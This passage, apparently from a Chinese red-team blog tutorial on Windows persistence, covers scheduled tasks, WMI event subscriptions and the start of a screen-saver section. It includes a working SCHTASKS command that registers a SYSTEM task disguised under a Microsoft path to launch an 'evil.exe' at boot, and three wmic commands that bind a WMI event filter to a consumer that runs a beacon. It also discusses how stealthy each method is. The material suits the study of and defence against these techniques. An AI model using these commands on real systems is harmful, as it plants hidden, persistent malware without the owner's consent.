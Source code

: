     SCHTASKS /Create /RU SYSTEM /SC ONSTART /RL HIGHEST /TN \Microsoft\Windows\evil\eviltask /TR C:\Users\hunter\Desktop\evil.exe
    
        

无需登录即可收到beacon：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004224652769.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在进程树中，恶意进程是被taskeng.exe即任务计划程序引擎拉起的，隐蔽性弱于DLL服务，但强于自启注册键。

但是，大坑又来了，我们发现SCHTASKS命令功能并不完整，很多配置项是无法操作的，比如不支持同时创建多个触发器，不支持修改“条件”和“设置”选项卡中的功能。如下：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225033310.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225038709.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
这些选项都是任务创建时的默认状态，也就是说我们的计划任务不会在睡眠唤醒时启动，断开交流电源自动停止，超过3天自动停止。而这些高级选项却不支持用命令行配置，查了一下微软社区，官方给的回复竟然是这样的：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225053283.png%23pic_center)-
哭笑不得…对于正常用户使用起来确实没问题，但对于红队来说，我们不方便操作GUI啊！当然也可以通过制作DLL模块或exe直接调用WINAPI来操作，但那还需要额外再上传一个文件，效率稍低。因此计划任务这个持久化的路子只能作为一个保险，并不能完全依赖。-
此外还有一个有些相似的利用点——组策略。在启动脚本处可以执行cmd脚本或ps脚本从而执行任意命令，但由于命令行版本的组策略编辑器功能太过受限，就不再做展开（如果可以登录桌面的话直接去gpedit.msc去配置启动脚本即可持久化，且隐蔽性较高）

**0x05 WMI**

权限要求：未降权的管理员权限

我们可以认为WMI是一组可以直接与Windows操作系统交互的API，由于这是操作系统自带的工具，无需安装，因此也是权限维持的好帮手。

由于WMI的事件会循环执行，为确保不会无限弹shell，可以使用系统启动时间来限制（只要触发延时可以落在限定区间即可，有些机器启动慢因此起始时间调高些）。示例命令如下：

    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="evil", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 310"
    
    wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="evilConsumer", ExecutablePath="C:\Users\hunter\Desktop\beacon.exe",CommandLineTemplate="C:\Users\hunter\Desktop\beacon.exe"
    
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"evil\"", Consumer="CommandLineEventConsumer.Name=\"evilConsumer\""
    
        

由于时间区间的落点不一定相同，特定情况下有可能会出现多个beacon：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225141528.png%23pic_center)-
看下进程树，隐蔽性一般：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225154540.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x06 屏幕保护**

权限要求：普通用户。

虽然未必所有用户都会使用屏幕保护，但幸运的是屏幕保护程序的相关配置都在注册表中，如下图的四个键：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004225215960.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
完整路径如下：
